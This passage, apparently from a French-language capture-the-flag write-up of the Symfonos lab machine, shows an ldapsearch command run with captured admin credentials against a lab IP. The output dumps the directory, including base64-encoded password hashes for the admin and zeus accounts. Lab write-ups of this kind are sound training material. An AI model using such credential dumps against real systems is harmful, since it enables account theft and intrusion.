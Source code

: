 Avec ces identifiants je peux dumper la base LDAP :

```bash
$ ldapsearch -x -H ldap://192.168.56.116:389/ -D "cn=admin,dc=symfonos,dc=local" -w qMDdyZh3cT6eeAWD -b "dc=symfonos,dc=local" "(objectclass=*)"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3
```
